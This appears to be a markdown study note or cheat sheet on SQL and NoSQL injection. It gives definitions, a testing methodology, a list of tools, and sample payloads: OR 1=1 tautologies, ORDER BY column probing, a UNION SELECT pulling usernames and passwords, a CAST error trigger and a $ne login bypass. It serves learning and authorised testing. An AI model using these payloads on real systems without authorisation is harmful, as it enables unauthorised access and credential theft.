   

# 🛠️ SQL Injection

  

## 🧭 High-Level Summary

SQL injection (SQLi) occurs when attackers manipulate SQL queries by injecting malicious inputs. This can result in unauthorized access, data exfiltration, or even full system compromise.

---

## 📚 Definitions and Key Terms

|**Term**|**Definition**|
|---|---|
|**SQL Injection (SQLi)**|Exploiting SQL queries by injecting malicious inputs.|
|**Union-Based SQLi**|Uses the `UNION` operator to combine malicious queries with legitimate ones.|
|**Error-Based SQLi**|Leverages database error messages to gain insights into the database structure.|
|**Boolean-Based SQLi**|Determines query behavior through true/false responses.|
|**NoSQL Injection**|Exploits vulnerabilities in NoSQL databases by injecting malicious code.|

---


## 🛠️ Detailed Methodology

  

### 1️⃣ Identifying SQL Injection Vulnerabilities

**Steps**:

1. **Test Common Inputs**:

- `' OR 1=1--`

- `" OR 1=1--`

2. **Inspect Responses**:

- Look for changes in behavior, errors, or unauthorized data access.

3. **Test Parameters**:

- Inputs in URLs, forms, and headers.

  

### 2️⃣ Union-Based SQL Injection

**Steps**:

1. **Identify Number of Columns**:

```sql

' ORDER BY 1--

' ORDER BY 2--

```

2. **Perform Union Injection**:

```sql

' UNION SELECT NULL, NULL, username, password --

```

  

### 3️⃣ Error-Based SQL Injection

**Steps**:

1. **Trigger Errors**:

```sql

' AND 1=CAST('a' AS INT)--

```

2. **Extract Data from Errors**.

  

### 4️⃣ NoSQL Injection

**Steps**:

1. **Bypass Authentication**:

- Input:

```json

{

"username": { "$ne": null },

"password": { "$ne": null }

}

```

2. **Leverage Query Operators**:

- `$regex`, `$gt`, `$ne`.

  

---

  

## 📌 Key Takeaways and Tools

  

### Tools

- **Burp Suite**: For intercepting and modifying requests.

- **SQLMap**: For automated SQLi detection and exploitation.

- **NoSQLMap**: For testing NoSQL databases.

- **Postman**: For manual API testing.

  

### Key Takeaways

- Focus on dynamic queries with user inputs.

- Leverage error messages for insights into the database.

- Always test NoSQL databases for injection vulnerabilities.

  

---
